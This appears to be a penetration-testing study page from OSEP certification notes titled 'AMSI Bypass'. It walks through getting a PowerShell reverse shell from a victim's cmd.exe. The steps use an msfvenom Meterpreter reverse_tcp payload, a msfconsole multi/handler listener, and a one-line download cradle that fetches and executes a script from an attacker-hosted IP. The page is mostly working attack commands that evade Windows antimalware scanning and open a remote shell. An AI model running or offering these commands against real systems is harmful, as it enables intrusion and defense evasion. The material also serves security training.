 # AMSI Bypass

<details>

<summary>Powershell Rev shell from CMD.exe</summary>

* Download all files from [https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI](https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI)

- Change Line 4 to Kali's IP
  * ![](<../.gitbook/assets/image (1).png>)

* Host Python Webserver on Kali&#x20;
* Generate payload & put in line 47 of shellcoderunner.ps1<img src="../.gitbook/assets/image (3).png" alt="" data-size="line">

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```

* Start Msfconsole listener

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

In Victim's cmd.exe shell, run:

```
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')
```

Following errors are expected:

<img src="../.gitbook/assets/image (4).png" alt="" data-size="original">\


</details>



